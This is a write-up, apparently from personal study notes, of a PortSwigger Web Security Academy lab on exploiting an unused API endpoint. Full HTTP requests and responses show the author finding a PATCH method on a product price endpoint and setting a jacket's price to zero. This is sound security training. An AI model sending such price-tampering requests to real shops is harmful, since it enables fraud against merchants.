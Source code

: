 [Lab](https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint)

---

Firstly, I navigated on the website to let burp's Dashboard map the website while I'm navigating in

In **Target > Site Map**, I can see `/api/products/1/price`. I send it to the repeater and switch `GET` to `OPTIONS`
###### Request
```http
OPTIONS /api/products/1/price HTTP/2
Host: 0a64007c04c57d328010d053004a00a6.web-security-academy.net
Cookie: session=OdVtywJeFyEfXZKKERL6UfBuy7Q5fCkJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a64007c04c57d328010d053004a00a6.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

###### Response
```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

I can see that `GET` and `PATCH` are allowed so I try `PATCH`
###### Request
```http
PATCH /api/products/1/price HTTP/2
Host: 0a64007c04c57d328010d053004a00a6.web-security-academy.net
Cookie: session=OdVtywJeFyEfXZKKERL6UfBuy7Q5fCkJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a64007c04c57d328010d053004a00a6.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```
###### Response
I can see in the response
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93

{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}
```

The error show I need to add the `Content-Type: application/json` to the request with an empty json
###### Request
```http
PATCH /api/products/1/price HTTP/2
Host: 0a64007c04c57d328010d053004a00a6.web-security-academy.net
Cookie: session=OdVtywJeFyEfXZKKERL6UfBuy7Q5fCkJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a64007c04c57d328010d053004a00a6.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/json

{}
```
###### Response
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 77

{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}
```

The error show me that I need to set the price in the json
###### Request
```http
PATCH /api/products/1/price HTTP/2
Host: 0a64007c04c57d328010d053004a00a6.web-security-academy.net
Cookie: session=OdVtywJeFyEfXZKKERL6UfBuy7Q5fCkJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a64007c04c57d328010d053004a00a6.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/json

{
	"price":0
}
```
###### Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```

The price has changed, I can buy my free jacket


